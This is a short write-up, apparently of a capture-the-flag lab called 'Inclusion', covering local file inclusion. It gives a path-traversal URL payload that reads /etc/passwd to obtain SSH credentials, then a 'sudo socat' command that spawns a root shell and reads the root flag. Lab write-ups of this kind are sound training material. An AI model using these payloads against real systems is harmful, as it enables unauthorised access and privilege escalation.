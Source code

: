 # Inclusion #

This room talks about LFI vulnerability in which an attacker tricks the web server to expose critical data this happens when a web server trusts user input which can lead to path transversal.

## Nmap Scan ##
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
There are only two ports open in the web server running on the port 80 and ssh on the port 22

## Enumeration ##
- Enter `http://<Machine_IP>/` in your browser.
- Open any article from the website
- Enter `<http://Machine_IP>/article?name=/<LFI_Payload>/`
  ### URL with Payload ###
  `<http://Machine_IP>/article?name=/../../../../etc/passwd/`
- In /etc/passwd you can find a user and password
> username - falconfeast

> password - xxxxxxxxxxxx
- Login using the credentials via ssh

## Exploitation ##
- Once you access the machine you can find user.txt with user flag in it.
- Use the command `sudo -l` to know the priveleges of the current user.
- user falconfeast has sudo permission to socat.
- Run the command `sudo socat stdin exec:/bin/sh`
- Running the command should give you elevated shell 
- Test it by running `whoami` should orint as root.
- Now print the root flag by `cat /root/root.txt`


